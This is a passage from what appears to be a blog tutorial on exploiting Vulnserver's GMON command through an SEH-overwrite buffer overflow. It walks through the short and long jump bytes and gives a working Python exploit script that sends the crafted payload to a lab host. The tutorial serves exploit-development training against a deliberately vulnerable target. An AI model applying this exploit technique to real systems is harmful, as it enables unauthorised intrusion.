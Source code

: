 <div class="imgblock">

![Short jump](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331142/blog/vulnserver-gmon/jmp1_hsds6d.gif)

</div>

Yes\! We are past our `SEH` handler. Now we have enough room of bytes to
perform a long jump back to the start of our `A` buffer. With the
debugger’s help, we get the needed offset by simply telling it to jump
to the start of our `A` buffer and letting it calculate the offset.

<div class="imgblock">

![Long jump](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331141/blog/vulnserver-gmon/jmp2_xmjgq1.gif)

</div>

As you can see, the resultant bytes are `E9 16 F2 FF FF`.

Let’s update our exploit with that:

``` python
import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

PAYLOAD = (
    b'GMON /.:/' +
    b'A' * (3551 - 4) +
    # JMP SHORT +0xa
    b'\xeb\x08' +
    # NOP NOP to fill the 4 bytes of nSEH
    b'\x90\x90' +
    # 625011FB    58                          POP EAX
    # 625011FC    5A                          POP EDX
    # 625011FD    C3                          RETN
    struct.pack('<L', 0x625011FB) +
    b'C' * 2 +
    # JMP long backwards to the start of our 'A' buffer
    b'\xe9\x16\xf2\xff\xff' +
    b'C' * (1445 - 2 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
```

And check it:

<div class="imgblock">

![Long jump](https://res.cloudinary.com/fluid-attacks/image/upload/v1620331140/blog/vulnserver-gmon/jmp3_pwvvyj.gif)

</div>

